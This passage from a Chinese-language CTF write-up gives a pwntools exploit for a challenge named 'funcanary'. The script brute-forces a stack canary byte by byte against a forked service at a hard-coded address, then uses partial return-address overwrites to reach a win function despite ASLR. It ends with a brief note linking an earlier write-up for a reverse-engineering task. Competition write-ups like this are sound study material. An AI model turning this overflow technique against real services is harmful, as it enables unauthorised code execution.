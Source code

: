 ### day2 funcanary
抢一血没写循环直接展开了  
fork爆破canry 板子
然后有ASLR 有win 短跳爆破4bit即可
```python
import struct

from pwn import *

cn = remote("39.106.48.123", 27305)

cn.recvuntil(b'welcome\n')

canary = b'\x00'
for j in range(7):
    for i in range(0x100):
        cn.send(b'a' * 104 + canary + struct.pack('B', i))
        a = cn.recvuntil(b'welcome\n')
        if b'have fu' in a:
            canary += struct.pack('B', i)
            print(canary)
            break

x = 8
cn.send(b'a' * 104 + canary + b'a' * x + b'\x31\x02')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x12')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x22')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x32')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x42')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x52')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x62')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x72')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x82')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\x92')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xa2')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xb2')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xc2')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xd2')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xe2')
cn.sendafter(b'welcome', b'a' * 104 + canary + b'a' * x + b'\x31\xf2')
cn.recvuntil(b'welcome')
```

## RE
### day1 moveAside  

一年前做过的题，当时我写的的超级详细题解：  
https://github.com/GhostFrankWu/CS315-ComputerSecurity/blob/main/week5/wp.md   
第一天结束后发现GitHub统计访客50多   
![picture 3](images/5e69c119178a3e4d15501981767aac8704ef9d49fb1300d41ab906b8f8b320c0.png)  
